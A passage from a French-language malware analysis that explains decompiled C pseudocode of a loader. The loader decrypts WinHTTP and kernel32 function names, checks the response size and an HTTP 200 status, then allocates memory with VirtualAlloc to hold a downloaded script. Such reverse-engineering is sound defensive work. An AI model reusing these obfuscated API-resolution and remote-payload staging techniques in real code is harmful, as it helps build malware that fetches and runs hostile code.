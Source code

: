 De cette réponse, il récupère la taille de l'en-tête `Content-Length` (`0x20000005`), qui est la taille en octets du contenu renvoyé par le serveur :

```c
GetEncryptedDataOf_WinHttpQueryHeaders(&var_3d1, &var_3d0);
void* name_WinHttpQueryHeaders = GetDecrypted_WinHttpQueryHeaders(&var_3d0);
void var_401;
void var_400;
sub_7ffa1bc490c0(&var_401, &var_400);
void* name_winhttp_7;
int64_t r8_8;
name_winhttp_7 = DecryptData_4(&var_400);
var_818 = &var_3ac;
int64_t query_success = ResolveFunction(name_winhttp_7, name_WinHttpQueryHeaders, r8_8, get_response)(hRequest, 0x20000005, 0, &size, var_818, 0);
```

Si la taille des données récupérées est supérieure à 0, alors il rentre dans la condition dans laquelle le script va être téléchargé.

Pour récupérer le script, il réutilise `WinHttpQueryHeaders` mais cette fois pour récupérer le code de status HTTP, s'il est égal à `0xc8 == 200`, qui correspond à `OK`, alors le programme continue de s'exécuter :

```c
GetEncryptedDataOf_WinHttpQueryHeaders_2(&var_431, &var_430);
void* name_WinHttpQueryHeaders_2 =
    GetDecrypted_WinHttpQueryHeaders(&var_430);
void var_461;
void var_460;
GetEncryptedDataOf_winhttp_7(&var_461, &var_460);
void* name_winhttp_8;
int64_t r8_9;
name_winhttp_8 = DecryptData_4(&var_460);
var_818 = &var_40c;
ResolveFunction(name_winhttp_8, name_WinHttpQueryHeaders_2, r8_9, query_success)(hRequest, 0x20000013, 0, &var_408, var_818, 0);
```

S'il continue de s'exécuter, alors l'utilisation du script commence. Tout d'abord, il commence par allouer une zone mémoire en lecture/écriture de la taille récupérée dans le dernier `WinHttpQueryHeaders` :

```c
GetEncryptedDataOf_VirtualAlloc(&var_481, &var_480);
void* function_name = DecryptData_10(&var_480);
void var_4b1;
void var_4b0;
int64_t r9_6 = GetEncryptedDataOf_kernel32_2(&var_4b1, &var_4b0);
void* module_name;
int64_t r8_10;
module_name = DecryptData_2(&var_4b0);
void* VirtualAlloc =
    ResolveFunction(module_name, function_name, r8_10, r9_6);
int64_t allocatedSpaceAddress;
int64_t r9_7;
allocatedSpaceAddress = VirtualAlloc(0, (uint64_t)size, 0x3000, 4);
```
